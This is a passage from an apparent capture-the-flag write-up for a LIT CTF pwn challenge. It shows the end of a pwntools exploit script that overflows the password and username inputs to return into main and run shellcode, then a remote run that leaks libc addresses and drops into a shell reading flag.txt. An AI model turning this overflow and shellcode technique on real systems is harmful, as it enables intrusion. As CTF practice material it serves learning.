 ```py
    binsh,
    system_addr
    )
    return payload



shellcode = shellcode()
p.recvuntil(b'Enter password:')
p.sendline(b'd0nt_57r1ngs_m3_3b775884\x00\nAAAAAALITCTF\x00\n'+cyclic(32)+main_addr)

main_addr_spam = cyclic(64) + main_addr + cyclic(24)
password =  main_addr_spam  +b'd0nt_57r1ngs_m3_3b775884\x00'
print(len(password))
p.recvuntil(b'Enter username:')
p.sendline( password + cyclic(128-(len(password))) +b'LITCTF\x00'+ cyclic(16) + main_addr + cyclic(9) + shellcode )

p.interactive()
```
In remote,
```bash
󰣇 lit_ctf/pwn/2ndlit ❯ python sol.py REMOTE                                                                                                                      3.13.3  20:22 
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/uc_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/hyder/CTF_FILES/lit_ctf/pwn/2ndlit/libc6_2.39-0ubuntu8.4_amd64.so'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to litctf.org on port 31779: Done
0x7f126e9b9be0
puts lib addr 0x87be0
0x7f126e932000
121
[*] Switching to interactive mode

Enter password:
Welcome
---------------------------------------------------------
Today's news: Lexington High School starts their 5th CTF!
---------------------------------------------------------
Goodbye
$ ls
$ cat flag.txt
flag.txt
main
run.sh
```
